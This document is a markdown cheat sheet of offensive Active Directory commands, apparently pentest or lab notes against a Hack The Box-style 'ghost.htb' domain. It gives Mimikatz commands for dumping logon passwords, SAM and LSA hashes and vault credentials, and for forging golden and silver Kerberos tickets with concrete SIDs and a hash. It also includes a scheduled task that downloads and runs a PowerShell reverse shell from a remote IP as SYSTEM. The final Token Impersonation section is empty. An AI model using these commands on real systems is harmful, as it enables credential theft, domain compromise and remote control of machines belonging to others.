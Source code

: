 https://github.com/gentilkiwi/mimikatz

```mimikatz
mimikatz.exe

# Elevate Privileges
privilege::debug

# Elevate privileges to SYSTEM by impersonation
token::elevate

# Dump logged on user and computer credentials
sekurlsa::logonpasswords 

# Retrieves credential from LSA
lsadump::lsa /patch

#
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv

# Retrieves and displays password hashes of local user accounts.
lsadump::sam

# Extracts and displays password hashes from the provided backup hive files.
lsadump::sam SystemBkup.hiv SamBkup.hiv

# Requests and retrieves password hashes for the specified user from the DC.
lsadump::dcsync /user:krbtgt

# List credentials in CredentialManager
vault::list

# Dump credentials in CredentialManager - plaintext password
vault::cred /patch
```

### Golden Ticket
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets
```
# Dump hashes - Get the krbtgt hash
lsadump::trust /patch -ComputerName ghost.htb

# Golden Ticket
kerberos::golden /ticket:aaa.kirbi /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /user:administrator /service:krbtgt /target:GHOST.HTB

# Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
lsadump::dcsync /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /user:Administrator

# Check WMI Permission
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### Silver Ticket
https://adsecurity.org/?p=2011
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS
Use the hash of the local computer
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check access (After CIFS silver ticket)
```
ls \\<servername>\c$\
```

#### Make silver ticket for Host
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```

### Token Impersonation
```

```